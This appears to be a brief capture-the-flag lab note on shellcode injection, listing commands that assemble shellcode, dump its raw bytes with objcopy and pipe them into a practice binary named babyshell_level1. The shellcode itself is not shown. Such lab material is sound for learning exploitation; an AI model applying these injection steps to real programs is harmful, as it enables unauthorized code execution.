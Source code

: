 STEP:

1. ```cmd
   gcc -nostdlib -static shellcode.s -o shellcode-elf
   ```
2. ```cmd
   objcopy --dump-section .text=shellcode-raw shellcode-elf
   ```
3. ```cmd
   (cat /home/hacker/shellcode-injection/lv1/shellcode-raw;cat) | ./babyshell_level1
   ```
